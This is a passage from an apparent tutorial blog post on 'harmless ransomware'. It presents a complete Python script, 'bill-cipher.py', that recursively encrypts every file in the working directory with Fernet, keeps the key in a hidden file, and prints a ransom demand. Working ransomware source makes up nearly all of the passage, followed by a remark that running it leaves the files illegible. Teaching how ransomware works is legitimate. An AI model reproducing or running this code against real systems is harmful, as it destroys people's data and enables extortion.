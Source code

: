 So the complete encryption program (`bill-cipher.py`) will look something like this:
```py
#!/usr/local/bin/python3 

import os
from cryptography.fernet import Fernet

def find_files():
	files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()

print(files)

key = Fernet.generate_key()

with open(".a_deal", "wb") as deal:
	deal.write(key)

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_encrypted = Fernet(key).encrypt(content)

	with open(file, "wb") as f:
		f.write(content_encrypted)

print("Files are encrypted! Send me moneyyyyyyyyyyyyyyy")
```

Now, if we run `bill-cipher.py`, we can see that all the files that this program can get its hand on becomes a jumble of illegible letters.

![file1-encrypted](/img/harmless-ransomware/file1-encrypted.png)
